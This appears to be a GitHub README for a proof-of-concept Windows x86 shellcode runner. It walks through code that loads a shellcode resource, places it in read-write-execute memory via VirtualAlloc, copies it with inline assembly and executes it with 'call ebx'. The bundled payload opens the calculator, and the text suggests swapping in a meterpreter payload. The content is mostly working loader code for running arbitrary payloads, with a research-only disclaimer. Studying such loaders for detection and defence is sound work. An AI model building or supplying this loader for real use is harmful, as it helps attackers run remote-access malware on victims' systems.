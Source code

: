 # Create_Thread: Inline_Assembly_x86
This POC provides the ability to execute x86 shellcode in the form of a .bin file based on x86 inline assembly.
The POC includes a calc.bin, which executes the Windows x86 calculator and can be replaced for example by a meterpreter .bin payload.

# **Disclaimer**
The content and all code examples in this article are for research purposes only and must not be used in an unethical context! The code used is not new and I make no claim to it. Most of the code comes, as so often, from the **ired.team, thank you @spotheplanet for your brilliant work and sharing it with us all!**

# **Description**
This code part initializes a handle (HRSRC) to a binary resource in the executable file. The FindResource() function locates the resource based on its name (IDR_CALC_BIN1) and type (CALC_BIN). The NULL parameter specifies the module instance handle, which is not needed in this case since the resource is located in the same executable file.
``` HRSRC codeResource;
    codeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"CALC_BIN");
```

These lines determine the size of the resource data in bytes, load the resource data into memory, and lock the data in place so that it can be accessed by the program.
``` DWORD codeSize;
    codeSize = SizeofResource(NULL, codeResource);
    HGLOBAL codeResourceData;
    codeResourceData = LoadResource(NULL, codeResource);
    void* codeData;
    codeData = LockResource(codeResourceData);
```

This code part allocates a region of memory that is both committed and reserved with the PAGE_EXECUTE_READWRITE protection flag. This means that the memory is both readable and writable, but also executable. The VirtualAlloc() function is used to allocate a block of memory, and the NULL parameter specifies that the block should be allocated in the process's default address space.
``` void* exec;
    exec = VirtualAlloc(NULL, codeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

This code part uses assembly language to copy the resource data to the executable memory. The mov instruction moves data from one register to another, and rep movsb copies data from the source address to the destination address.
```    
    __asm {
        mov esi, codeData;
        mov edi, exec;
        mov ecx, codeSize;
        cld;
        rep movsb;
    }
```

This code part uses assembly language to execute the code in the newly allocated memory. The mov instruction loads the address of the executable memory into the EBX register, and call ebx calls the code at that address.
```    
    __asm {
        mov ebx, exec;
        call ebx;
    }
```

This code part frees the executable memory that was allocated earlier using the VirtualFree() function with the MEM_RELEASE flag. The 0 parameter specifies the size of the memory region to free, and return 0 ends the program.
```    
    VirtualFree(exec, 0, MEM_RELEASE);

    return 0;
}
```
